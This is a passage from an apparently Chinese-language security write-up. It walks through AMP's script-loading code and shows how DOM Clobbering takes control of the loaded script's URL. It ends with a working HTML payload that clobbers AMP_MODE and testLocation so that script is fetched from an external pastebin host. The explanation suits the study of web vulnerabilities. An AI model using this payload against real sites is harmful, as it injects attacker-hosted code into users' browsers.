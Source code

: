 ```javascript
var script = window.document.createElement("script");
script.async = false;
 
var loc;
if (AMP_MODE.test && window.testLocation) {
    loc = window.testLocation
} else {
    loc = window.location;
}
 
if (AMP_MODE.localDev) {
    loc = loc.protocol + "//" + loc.host + "/dist"
} else {
    loc = "https://cdn.ampproject.org";
}
 
var singlePass = AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "";
b.src = loc + "/rtv/" + AMP_MODE.rtvVersion; + "/" + singlePass + "v0/" + pluginName + ".js";
 
document.head.appendChild(b);
```

因此，在第1行中，代码创建了一个新的 `script` 元素。然后，检查 `AMP_MODE.test` 和 `window.testLocation` 是否存在。如果是这样，并且 AMP_MODE.localDev 为真（第11行），则将`window.testLocation` 作为生成脚本URL的基础。然后，在第17和18行中，将其他一些属性连接起来以形成完整的URL。虽然乍一看可能并不明显，但是由于代码的编写方式以及 DOM Clobbering，我们实际上可以控制完整的URL。让我们假设 `AMP_MODE.localDev` 和 `AMP_MODE.test` 为真，代码会进一步简化：

```javascript
var script = window.document.createElement("script");
script.async = false;
 
b.src = window.testLocation.protocol + "//" + 
        window.testLocation.host + "/dist/rtv/" + 
        AMP_MODE.rtvVersion; + "/" + 
        (AMP_MODE.singlePassType ? AMP_MODE.singlePassType + "/" : "") + 
        "v0/" + pluginName + ".js";
 
document.head.appendChild(b);
````

你还记得我们之前通过 DOM Clobbering 重载 `window.test1.test2` 的练习吗？现在我们需要做同样的事情，只要重载 `window.testLocation.protocol`。因此，最终的有效载荷：

```html
<!-- We need to make AMP_MODE.localDev and AMP_MODE.test truthy-->
<a id="AMP_MODE"></a>
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

<!-- window.testLocation.protocol is a base for the URL -->
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```
